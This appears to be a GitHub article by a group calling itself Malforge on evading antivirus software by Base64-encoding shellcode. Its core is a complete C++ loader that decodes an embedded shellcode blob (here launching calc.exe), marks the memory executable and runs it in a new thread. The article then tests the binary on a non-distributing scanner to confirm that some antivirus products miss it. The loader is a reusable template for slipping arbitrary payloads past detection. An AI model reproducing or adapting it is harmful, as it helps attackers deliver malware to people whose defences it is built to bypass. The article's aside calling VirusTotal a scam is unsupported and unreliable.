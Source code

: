 # AntiVirus Evasion with Payload Encoding

## Introduction

This article explores a method to evade antivirus detection by encoding shellcode with Base64, making it harder for security tools to identify the payload.

This article explains how Base64 encoding is used to conceal a malicious payload. During execution, the payload is decoded and run, helping to bypass static antivirus detection—though dynamic analysis and sandbox environments may still flag it.

![image](https://github.com/user-attachments/assets/c086dade-7981-4e0d-9075-b0a8c0210afa)

### Base64 :

> Base64 - MDN Web Docs Glossary: Definitions of Web-related terms | MDN\
Base64 is a group of similar binary-to-text encoding schemes that represent binary data in an ASCII string format by [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Glossary/Base64)

**Base64** is a [binary-to-text encoding](https://en.wikipedia.org/wiki/Binary-to-text_encoding) method that converts binary data into ASCII characters by encoding it in a radix-64 format, making it suitable for data transmission and obfuscation.

Base64 encoding is used to safely encode binary data for storage or transmission over systems that handle ASCII, preserving data integrity during transfer. It's widely used in applications like email [(MIME)](https://en.wikipedia.org/wiki/MIME) and embedding complex data in formats like [XML](https://developer.mozilla.org/en-US/docs/Web/XML).

![image](https://github.com/user-attachments/assets/60411ba5-d53e-497a-9936-e1265616d7f1)

Below is the code implementation of Base64 encoding technique for antivirus evasion :

```C++
// open calc.exe
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment(lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);

int DecodeBase64(const BYTE *src, unsigned int srcLen, char *dst, unsigned int dstLen)
{

    DWORD outLen;
    BOOL fRet;

    outLen = dstLen;
    fRet = CryptStringToBinary((LPCSTR)src, srcLen, CRYPT_STRING_BASE64, (BYTE *)dst, &outLen, NULL, NULL);

    if (!fRet)
        outLen = 0; // failed

    return (outLen);
}

int main(void)
{

    void *exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // Allocate new memory buffer for payload
    exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Decode the payload back to binary form
    DecodeBase64((const BYTE *)calc_payload, calc_len, (char *)exec_mem, calc_len);

    // Make the buffer executable
    rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

    // If all good, execute!
    if (rv != 0)
    {
        th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
        WaitForSingleObject(th, -1);
    }

    return 0;
}
```

Two functions are used in this example:

  - **Main:** First, it allocates memory with `VirtualAlloc`, then decodes the Base64 payload using the `DecodeBase64` function. After preparing the payload, it marks the buffer as executable with             
    `VirtualProtect` and finally executes it using `CreateThread`.

  - **DecodeBase64:** This function converts the Base64 encoded payload into plain text using `CryptStringToBinary` and returns the length of the decoded payload."

## POC :

To test the payload against antivirus software, the following website is used.

> AntiScan.Me | Online Virus Scanner Without Result Distribution\
Scan your file online with multiple different antiviruses without distributing the results of your scan. [www.antiscan.me](https://www.antiscan.me/)

Virustotal, is currently considered a scam for using the malware that is published on it

**Virustotal** is often criticized for using the malware uploaded to its platform.

This are the results without Base64 payload encoding:

![image](https://github.com/user-attachments/assets/eeb7afac-94cb-489c-8dc5-bb3504302ff3)

This are the results with Base64 payload encoding:

![image](https://github.com/user-attachments/assets/9e7ddb18-d699-4003-8efa-65531d78b9d1)

## Conclusions : 

In conclusion, using Base64 helps evade some antivirus software, but not all. Future articles will explore additional methods to bypass more antivirus detection. 

Thanks for reading! :space_invader:	

**-Malforge Group.**




